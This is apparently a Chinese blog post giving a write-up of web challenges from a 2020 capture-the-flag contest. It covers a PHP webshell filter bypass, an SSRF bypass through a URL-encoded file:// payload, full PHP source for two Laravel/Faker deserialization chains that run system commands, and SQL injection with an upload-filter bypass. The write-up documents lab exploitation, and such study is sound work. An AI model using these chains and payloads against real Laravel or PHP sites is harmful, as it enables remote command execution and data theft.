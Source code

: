 ```yaml
---
layout:     post
title:      第五空间-WP
subtitle:   第五空间 web wp
date:       2020-05-12
author:     BY Diego
header-img: img/wenzhang/post-bg-第五空间.jpg
catalog: true
tags:
    - WP
    - 比赛
---
```


# hate-php

简单的无字符webshell 利用取反绕过 + php7 特性

![NwNpLV.png](https://s1.ax1x.com/2020/06/24/NwNpLV.png)

![NwNSs0.png](https://s1.ax1x.com/2020/06/24/NwNSs0.png)

`flag{ecee9b5f24f8aede87cdda995fed079c}`

# do you know

非预期解

index.php 存在如下限制
![NwaTqx.png](https://s1.ax1x.com/2020/06/24/NwaTqx.png)
检测 `$_SERVER['QUERY_STRING']` 但是不会url解码 ，因此url编码绕过

下面几个限制 `_GET` 最后一个参数复制给url
构造如下
```
a=1&b=1&url=..
```

后面是php的curl， 因此为ssrf ，支持file，dict等协议 尝试读文件
![NwaqIO.png](https://s1.ax1x.com/2020/06/24/NwaqIO.png)
xxe.php 存在main.php 和 hint.php
读取文件main.php
![NwabdK.png](https://s1.ax1x.com/2020/06/24/NwabdK.png)

发现存在flag.php
![NwaHZ6.png](https://s1.ax1x.com/2020/06/24/NwaHZ6.png)

payload
```
?a=1&b=1&url=%66%69%6c%65%3a%2f%2f%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%66%6c%61%67%2e%70%68%70
```
`flag{5bc0bc291d322450679866d5ddf0a346}`

# laravel

从网上公开的利用链已经不能用了 ，尝试自己挖掘

先寻找利用点 全局搜索`call_user_func`,目标锁定在
![NwBdwq.png](https://s1.ax1x.com/2020/06/24/NwBdwq.png)

然后寻找起始点`__destruct` 而这里的`__destruct` 需要调用上面的`__call`，找到符合条件的点`\vendor\laravel\framework\src\Illuminate\Routing\PendingResourceRegistration.php`
![NwBamn.png](https://s1.ax1x.com/2020/06/24/NwBamn.png)

会去调用`register`，而`register`又会调用`$this->registrar->register()`,同时`$this->registrar`可控，因此调用了`__call`

利用

目的是利用`vendor\fzaninotto\faker\src\Faker\ValidGenerator.php`中`__destruct`的`call_user_func`
这里`$this->validator`可控 `$res` 为call_user_func_array 的返回值
![NwBNOs.png](https://s1.ax1x.com/2020/06/24/NwBNOs.png)

因此还需要寻找一个返回值可控的点，同时由于`name` 不可控因此 调用的方法不可控，但是会调用可控制类的`__call`方法，因此再寻找一个符合条件的`__call` 方法

`vendor\fzaninotto\faker\src\Faker\DefaultGenerator.php` 中 `$this->default`可控 因此`$res`可控
![NwBtyj.png](https://s1.ax1x.com/2020/06/24/NwBtyj.png)


最终`call_user_func`全部可控,构造链如下
```php
<?php

namespace Illuminate\Routing {

	class PendingResourceRegistration{

    	protected $registrar;
    	protected $registered = false;
    	public function __construct(){

    	    $this->registrar = new \Faker\ValidGenerator();
    	}
	}

}

namespace Faker {
	class ValidGenerator{
    	protected $generator ;//= new DefaultGenerator();
    	protected $validator;
    	protected $maxRetries=1;

    	public function __construct(){

    		$this->generator = new DefaultGenerator();
    		$this->validator = "system";

    	}
    }

    class DefaultGenerator{
    	protected $default="cat /flag";
    }

}

namespace {

	$a = new Illuminate\Routing\PendingResourceRegistration();
	echo urlencode(serialize($a));
}
?>
```
亦或者如下
```
<?php
namespace Faker {
	class ValidGenerator{
    	protected $generator ;//= new DefaultGenerator();
    	protected $validator;
    	protected $maxRetries=1;

    	public function __construct(){

    		$this->generator = new DefaultGenerator();
    		$this->validator = "system";

    	}
    }

    class DefaultGenerator{
    	protected $default="cat /flag";
    }

}

namespace Symfony\Component\Routing\Loader\Configurator{

	class CollectionConfigurator{
		private $parent;
    	private $parentConfigurator;
    	private $parentPrefixes;
    	public function __construct(){
    		$this->prefixes = 1;

    	    $this->parent = new \Faker\ValidGenerator();
    	}
	}
}

namespace {

	$a = new Symfony\Component\Routing\Loader\Configurator\CollectionConfigurator();
	echo urlencode(serialize($a));
}
```
![NwDPXj.png](https://s1.ax1x.com/2020/06/24/NwDPXj.png)
`flag{90569859b0164266ef04461bbc1d5cc5}`


# 美团外卖

一开始以为是个注入题目 可以`'union select 'md5'# ` 然后对应值登入 但是发现是个空壳


扫描目录发现存在www.zip
审计存在注入漏洞 daochu.php（无任何过滤）
![NwsNOH.png](https://s1.ax1x.com/2020/06/24/NwsNOH.png)

注入发现hints
![Nwsd0A.png](https://s1.ax1x.com/2020/06/24/Nwsd0A.png)

是个后台地址，同时发现框架使用了webuploader 插件 ，存在上传漏洞
`lib\webuploader\0.1.5\server\preview.php`多加了限制 然后大写绕过
![Nwsamd.png](https://s1.ax1x.com/2020/06/24/Nwsamd.png)

![NwswTI.png](https://s1.ax1x.com/2020/06/24/NwswTI.png)
最后`?file = /flag` 即可


![Nwst6e.png](https://s1.ax1x.com/2020/06/24/Nwst6e.png)

`flag{90569859b0164266ef04461bbc1d5cc5}`

